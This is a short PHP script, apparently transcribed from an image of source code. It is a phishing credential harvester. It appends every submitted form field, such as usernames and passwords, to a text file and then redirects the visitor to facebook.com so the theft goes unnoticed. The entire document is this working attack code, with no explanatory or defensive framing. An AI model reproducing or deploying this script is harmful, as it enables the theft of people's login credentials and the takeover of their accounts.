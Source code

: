 <?php
header('Location:http://www.facebook.com/');
$handle = fopen ("usernames.txt", "a");
foreach($_POST as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?>
